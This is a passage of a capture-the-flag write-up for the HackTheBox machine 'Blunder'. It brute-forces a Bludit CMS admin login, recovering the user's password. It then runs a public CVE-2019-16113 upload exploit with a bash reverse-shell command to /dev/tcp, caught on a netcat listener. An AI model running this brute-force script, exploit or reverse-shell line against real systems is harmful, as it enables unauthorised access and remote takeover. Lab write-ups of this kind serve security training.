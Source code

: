 ```cewl -d 5 http://10.10.10.191 -w /home/_4m0r/HTB/Machines/Blunder/wordlist.txt ```. Using the aforementioned POC, a

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```
The script had brute forced the password for the user fergus as **RolandDeschain** and the same is given on the section
below.
```shell
[_4m0r@manjaro Blunder]$ python Bludit3.9.2PassBruteForce.py  
[*] Trying: the 
[*] Trying: Load 
[*] Trying: Plugins 
[*] Trying: and 
---SNIP---
[*] Trying: fictional 
[*] Trying: character 
[*] Trying: RolandDeschain 
 
SUCCESS: Password found! 
Use fergus:RolandDeschain to login.
```
# User Shell
## Initial Foothold
With a set of working credentials identified, the remote code vulnerability discussed earlier can now be used. The exploit 
from[^f2] *GitHub* was ran with the credentials ***fergus:RolandDeschain***. For the *-c*, command option, a *bash
reverse shell* that sends the shell to port *9095* was used. A reverse shell was received on the netcat listener
when the exploit was executed and the same is given on the section below.
```shell
---TERMINAL-1---
[_4m0r@manjaro Blunder]$ python 48568.py -u http://10.10.10.191 -user fergus -p RolandDeschain -c "bash -c 'bash -i >& /dev/tcp/10.10.14.50/9095 0>&1'" 
 
 
╔╗ ┬  ┬ ┬┌┬┐┬┌┬┐  ╔═╗╦ ╦╔╗╔ 
╠╩╗│  │ │ │││ │   ╠═╝║║║║║║ 
╚═╝┴─┘└─┘─┴┘┴ ┴   ╩  ╚╩╝╝╚╝ 
 
 CVE-2019-16113 CyberVaca 
 
 
[+] csrf_token: 33a7d577a7d1bf8cf34c206c806dbc8a4e413d4f 
[+] cookie: 5os350q5447e66675fhgb4vde4 
[+] csrf_token: af51b1edfd8cb3f9bc7660da99b4b08481009a08 
[+] Uploading ctjvfntd.jpg 
[+] Executing command: bash -c 'bash -i >& /dev/tcp/10.10.14.50/9095 0>&1' 
[+] Delete: .htaccess 
[+] Delete: ctjvfntd.jpg
 
---TERMINAL-2---
[_4m0r@manjaro Blunder]$ nc -lvnp 9095 
Connection from 10.10.10.191:32834 
```